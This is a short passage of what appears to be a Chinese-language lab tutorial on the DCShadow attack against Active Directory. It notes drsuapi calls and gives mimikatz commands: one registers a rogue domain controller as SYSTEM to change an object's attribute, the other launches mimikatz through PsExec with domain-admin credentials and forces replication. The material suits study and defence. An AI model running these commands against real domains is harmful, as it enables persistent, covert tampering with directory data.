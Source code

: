 ![image-20201128202617773](/assets/img/image-20201128202617773.png)



- drsuapi接口调用

  ![image-20201128203015506](/assets/img/image-20201128203015506.png)



## 攻击过程

```
// 窗口1使用psexec, 以system权限启动mimikatz。system权限下用户名是win10$，只有机器账号才能作为域控。
// 此窗口是启动RPC Server，等待真实域控连接
lsadump::dcshadow /object:CN=win10,CN=Users,DC=ring2,DC=com /attribute:description /value:"helloworld"
```

```
// 窗口2，以域管理员权限启动mimikatz
// 此窗口是强制域内数据同步
PsExec64.exe -u ring2\administrator -p Test1234 c:\Users\win10\Desktop\mimikatz.exe
lsadump::dcshadow /push
```
